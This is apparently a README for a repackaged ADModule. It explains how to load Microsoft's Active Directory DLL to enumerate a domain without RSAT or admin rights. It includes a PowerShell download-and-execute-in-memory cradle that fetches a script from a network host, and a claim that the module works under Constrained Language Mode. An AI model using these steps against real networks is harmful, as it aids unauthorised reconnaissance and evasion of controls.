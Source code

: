 ## This module was originally from https://github.com/samratashok/ADModule but all AD files have been replaced from Server 2022.

Within the import ps1 script, the bytes have been replaced with the bytes from this Microsoft.ActiveDirectory.Management.dll.


You can copy this DLL to your machine and use it to enumerate Active Directory without installing RSAT and without having administrative privileges.

```powershell
Import-Module C:\ADModule\Microsoft.ActiveDirectory.Management.dll -Verbose
```
![import_dll](https://github.com/user-attachments/assets/f44c76e4-0c18-4ba5-b48d-a992d3cfc28a)

Alternatively, you can use the ps1 script to download and execute in memory
```powershell
iex(new-object net.webclient).downloadstring('http://192.168.137.128/Import-ActiveDirectory.ps1');Import-ActiveDirectory
```

![import_example](https://github.com/user-attachments/assets/f490e7a3-3a31-4539-8cd8-09480eddd766)


To be able to list all the cmdlets in the module, import the module as well. Remember to import the DLL first.
```powershell
PS C:\> Import-Module C:\ADModule\Microsoft.ActiveDirectory.Management.dll -Verbose

PS C:\> Import-Module C:\AD\Tools\ADModule\ActiveDirectory\ActiveDirectory.psd1

PS C:\> Get-Command -Module ActiveDirectory
```

This module should work without issue from PowerShell's Constrained Language Mode.
